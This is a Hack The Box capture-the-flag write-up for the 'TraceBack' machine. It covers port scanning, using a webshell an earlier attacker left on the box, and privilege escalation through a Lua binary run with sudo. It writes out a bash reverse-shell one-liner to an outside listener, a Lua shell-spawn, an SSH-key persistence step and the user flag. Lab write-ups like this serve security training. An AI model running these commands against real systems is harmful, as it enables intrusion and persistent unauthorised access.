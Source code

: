 # TraceBack
> Write-up author: jon-brandy


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a5389983-7994-42b7-87d6-c39c262b8597)


## Lessons Learned:
1. Enumeration.
2. Utilizing dropped backdoor.
3. Writing Lua.
4. Generating ssh-key to get more stable shell.
5. Manipulating SSH Motd.

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC traceback.htb --min-rate 1000 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-25 19:53 PDT
Nmap scan report for traceback.htb (10.10.10.181)
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9625518e6c830748ce114b1fe56d8a28 (RSA)
|   256 54bd467114bdb242a1b6b02d94143b0d (ECDSA)
|_  256 4dc3f852b885ec9c3e4d572c4a82fd86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.67 seconds
```

1. Based from the nmap results above, seems the machine runs web application at port 80 and opens ssh login at port 22.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0ed872db-def1-40fd-b05b-f01b2f8d6548)


2. Seems the webapp is already compromised and the attacker left a backdoor which is accessible he said.
3. Hence let's execute directory listing using **dirsearch**.
4. However, dirsearch resulting to none. It means the webshell filename is not common.
5. Reviewing the message shown, resulting to no clue other than searching the `Xh4H` name online.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f7d67e1f-c1d5-4919-b0f7-3617db19484b)



6. Traversing on the internet resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f5d980a2-9a97-4b54-a70e-a82e3600451a)


7. Adding **webshell** to our search query, resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/75d799d5-5024-41b6-bf40-3d71becb4ddc)


8. The first result, should be our interest.

> GITHUB

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1384da27-8377-4203-b854-bb513772c9e8)

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e6c49331-c7e6-4672-9fe2-3b2ca7ab052a)


9. Enumerating each webshell file, the backdoor dropped is --> `smevk.php`.

> Enter creds --> `admin:admin` (shown at the source code).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/363c04a5-96e9-4972-b799-ee967df3f46e)


10. Indeed it seems the best backdoor 🤲🏻.
11. Long story short, after traversing to `/home/webadmin`, found a note from sysadmin team.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/051e6bac-d543-485c-8429-a6da4faa6d3b)

12. Reviewing the bash history file, found that a binary named **luvit** seems inside the sudo permission.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fd1ac823-a2ee-4330-ad17-afd3a7a4c729)


13. This could be used for our privesc method.
14. Great! Anyway let's get more comfy enumeration by getting a reverse shell.
15. I used simple bash reverse shell:

```txt
bash -c 'bash -i >& /dev/tcp/10.10.14.4/1337 0>&1'
```

16. Set up a listener at port **1337** than enter it on the **execute** box.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ef6adcff-da39-4c24-bc8b-1fe47e9bbeea)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2a27e9b7-5e5d-4ad5-9b8c-70f7baa8668c)


17. Remembering the **luvit** binary is inside the **sysadmin** home directory, we need to traverse there, but currently we are denied.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c7ab4b96-ae8f-45df-8825-c177f4ff3123)


18. BUT thing to note, upon checking the sudo permission seems **luvit** is executable by any user.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/30fcc402-ea95-46e5-83d8-9b12e350fb76)


19. Remembering we can specify a username, hence we could gain access to sysadmin's home directory.
20. Let's use the **luvit** binary.

===

### USING LUVIT

- Sending shell spawn LOCs to lua.

```
echo "require('os');" > sysad.lua
echo "os.execute('/bin/bash');" > sysad.lua
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b472f3aa-ca88-4f55-93a5-b44f419c6402)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/54a0f835-d4c9-4fda-a9d1-840b85d5aa60)



## USER FLAG

```
4835038ff249e1ae23de765fc1110e3d
```

21. Great! Now let's change our shell mode to interactive by executing `bash -i`, then add our ssh-key to sysadmin's authorized_keys.
22. With this, we can have access directly without dropping reverse shell.

```console
Generate ssh key at our local machine.

┌──(brandy㉿bread-yolk)-[~/.ssh]
└─$ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/brandy/.ssh/id_ed25519): sysadmin
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in sysadmin
Your public key has been saved in sysadmin.pub
The key fingerprint is:
SHA256:ExUTsfRZaVupYJr+VAwDiB+QPtNOGz92d+chutc2U5A brandy@bread-yolk
The key's randomart image is:
+--[ED25519 256]--+
|     .+ ..O+  ...|
|     o o o O oo..|
|    . o o = B..+ |
|     + = +   +E  |
|      = S   .  . |
|       o * o o oo|
|        . = o +.+|
|           o . =.|
|           .o . o|
+----[SHA256]-----+
                                                                                                                                                                                             
┌──(brandy㉿bread-yolk)-[~/.ssh]
└─$ cat sysadmin.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGlvFYfrNpHf4A8gXc+IB+B8xYMYE3ajJkruV47FkzhJ brandy@bread-yolk
```

23. Then, add it to sysadmin's authorized_keys file.

```
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGlvFYfrNpHf4A8gXc+IB+B8xYMYE3ajJkruV47FkzhJ brandy@bread-yolk" >> authorized_keys
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6869268c-1acf-457a-96ca-95ca24c535b4)


#### NOTES:

```
Remember to execute the ssh inside .ssh directory and don't forget to execute chmod 400 to id_rsa file.
```

## IMPORTANT LINKS

```

```
